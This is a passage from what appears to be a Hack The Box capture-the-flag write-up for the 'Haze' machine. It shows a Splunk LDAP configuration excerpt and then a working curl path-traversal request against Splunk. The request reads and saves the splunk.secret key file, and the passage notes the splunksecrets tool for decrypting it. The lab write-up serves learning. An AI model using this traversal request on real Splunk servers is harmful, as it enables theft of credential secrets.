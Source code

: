 ```
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

![](images/Pasted%20image%2020250628085130.png)

The `splunk.secrets` file is saved to a local file.
```
fcoomans@kali:~/htb/haze$ curl -s "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/auth/splunk.secret"
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD
fcoomans@kali:~/htb/haze$ curl -s "http://dc01.haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/auth/splunk.secret" >loot/splunk.secret
```

#### splunksecrets

`splunksecrets` can be installed using `pip`, according to the GitHub repo page (https://github.com/HurricaneLabs/splunksecrets.git).

![](images/Pasted%20image%2020250628084625.png)